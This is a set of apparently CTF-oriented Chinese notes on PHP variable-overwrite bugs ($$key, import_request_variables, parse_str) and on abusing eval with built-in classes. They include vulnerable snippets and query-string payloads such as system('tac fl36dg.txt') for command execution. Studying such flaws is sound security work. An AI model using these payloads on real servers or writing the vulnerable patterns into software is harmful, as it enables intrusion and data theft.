 ```php
$$符号在php中叫做可变变量，可以使变量名动态设置。举个例子

$auth=0;
foreach ($_GET as $key => $value) {
    $$key=$value;
}
echo $auth;

在第二行中遍历了全局变量$_GET，第三行将key当作变量名，把value赋值。 那么我们传入http://127.0.0.1/1.php?auth=1时会将$auth的值覆盖为1
```

```php

import_request_variables
将 GET／POST／Cookie 变量导入到全局作用域中，如果你禁止了 register_globals，但又想用到一些全局变量，那么此函数就很有用。那么和register_globals存在相同的变量覆盖问题。

$auth = '0';
import_request_variables('G');
 
if($auth == 1){
  echo "over!";
}

同样传入 http://127.0.0.1/1.php?auth=1时会将$auth的值覆盖为1，输出over!
```

```php
parse_str()
将字符串解析成多个变量

$a='aa';
$str = "a=test";
parse_str($str);
echo ${a};

可以看出来将$str解析为$a='test'，与parse_str()类似的函数还有mb_parse_str()，不在赘述。
```

#### 内置类

`eval("echo new $v1($v2());");`

```php
?v1=Exception&v2=system('tac fl36dg.txt')
或者
?v1=ReflectionClass&v2=system('tac fl36dg.txt')
或者
?v1=ReflectionMethod&v2=system('tac fl36dg.txt')

#查看目录下文件结构
?v1=FilesystemIterator&v2=getcwd
```
